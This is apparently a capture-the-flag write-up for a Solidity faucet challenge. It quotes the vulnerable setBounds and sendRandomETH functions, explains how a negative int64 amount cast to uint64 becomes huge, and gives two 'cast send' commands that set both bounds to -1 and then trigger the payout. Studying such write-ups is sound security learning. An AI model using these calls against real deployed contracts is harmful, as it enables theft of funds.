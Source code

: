 ## Lucky Faucet


## code / Description
```solidity
function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
    require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
    require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
    require(_newLowerBound <= _newUpperBound);
    upperBound = _newUpperBound;
    lowerBound = _newLowerBound;
}
```

```solidity
function sendRandomETH() public returns (bool, uint64) {
    int256 randomInt = int256(blockhash(block.number - 1));
    uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
    bool sent = msg.sender.send(amountToSend);
    return (sent, amountToSend);
}
```

## Challenge Analysis

The "Lucky Faucet" challenge involves a smart contract designed to send a random amount of ETH based on a pseudo-random number derived from the blockhash and the set bounds. The critical flaw lies in the handling of integer underflow when setting the bounds, allowing for unexpected behavior when calculating the amount of ETH to send.


## Solution

The solution exploits the type casting vulnerability by setting the upperBound and lowerBound such that the calculation randomInt % (upperBound - lowerBound + 1) + lowerBound results in a negative value. When this negative value is cast to an unsigned integer (uint64), it becomes a very large positive number, thereby exploiting the contract to send a large amount of ETH. This is achieved by calling setBounds with values that lead to a negative outcome for the amount to send, and then invoking sendRandomETH to trigger the flawed logic and cast the negative result to an unexpectedly large positive value.

Adjust both upperBound and lowerBound to -1, ensuring that the expression randomInt % (upperBound - lowerBound + 1) consistently equals zero. Consequently, the amountToSend will always be equal to lowerBound.


## Final Exploit
```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "setBounds(int64,int64)" -- -1 -1 
```

```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "sendRandomETH()"
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)